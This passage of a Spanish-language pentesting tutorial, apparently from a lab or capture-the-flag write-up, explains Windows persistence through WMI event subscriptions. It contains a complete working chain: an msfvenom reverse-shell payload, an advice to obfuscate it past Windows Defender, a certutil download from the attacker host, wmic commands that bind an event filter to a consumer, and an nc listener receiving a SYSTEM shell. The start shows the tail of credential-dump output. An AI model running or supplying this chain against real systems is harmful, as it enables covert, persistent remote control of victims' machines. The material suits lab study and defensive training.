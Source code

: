 ```
	* Domain   : WORKGROUP
	* Password : (null)
	ssp :	
	credman :
```

### Windows Persistence with WMI Events

Además de con `eventos Wmi` se podría hacer `persistencia` con G`flags (recibimos una shell cuando se cierra un programa)` o con el `Debugger (recibimos una shell cuando el usuario abre un programa)`. Si usamos `metasploit`, podríamos crear una persistencia mediante la cual cada vez se `inicie` el `equipo` nos `mande` una `consola` a nuestro equipo. El primero paso para crear una `persistencia` eventos `Wmi` es crear un `binario` con `msfvenom` en nuestro equipo, si de alguna forma el `Windows Defender` identificara el `binario` como `malicioso` deberíamos `ofuscarlo`

```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.23 LPORT=443 -f exe > persistence.exe
```

Nos creamos un `servidor http` con `python` en el `mismo directorio` que el `.exe`

```
# python -m http.server 80
```

Desde la máquina víctima nos `descargamos` el `archivo` 

```
C:\Windows\Temp> certutil.exe -urlcache -split -f http://10.10.16.23/persistence.exe
```

Una vez dentro de la máquina `ejecutamos` estos `comandos`

```
C:\Windows\Temp> wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="shell", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
Instance creation successful.

C:\Windows\Temp> wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="shell", ExecutablePath="C:\Windows\Temp\persistence.exe",CommandLineTemplate="C:\Windows\Temp\persistence.exe"
Instance creation successful.

C:\Windows\Temp> wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE FIlter="__EventFilter.Name="shell"", Consumer="CommandLineEventConsumer.Name="shell"" 
Instance creation successful.
```

Nos ponemos en `escucha` y pasados `60 segundos` obtenemos la `shell`

```
# nc -nlvp 443     
listening on [any] 443 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.183.78] 49500
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
